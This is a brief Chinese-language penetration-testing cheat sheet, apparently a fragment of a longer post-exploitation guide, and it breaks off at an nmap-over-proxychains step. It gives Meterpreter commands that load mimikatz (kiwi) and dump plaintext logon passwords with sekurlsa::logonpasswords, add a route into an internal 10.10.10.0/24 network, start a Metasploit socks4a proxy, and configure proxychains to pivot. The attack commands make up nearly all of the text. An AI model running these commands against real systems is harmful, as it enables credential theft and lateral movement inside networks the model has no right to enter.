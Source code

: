使用 mimikatz 获取明文：

```http
https://blog.csdn.net/weixin_45588247/article/details/119497964
```

```bash
meterpreter > load kiwi
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

添加路由进行内网渗透：

```bash
meterpreter > run autoroute -s 10.10.10.0/24
```

启动 socks 代理：

```
msf5 > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set srvport 2222
msf5 auxiliary(server/socks4a) > options
msf5 auxiliary(server/socks4a) > run
```

使用 proxychains 配置文件：

```bash
vim /etc/proxychains.conf
```

```
socks4 127.0.0.1 2222
```

使用namp配合proxychains扫端口：
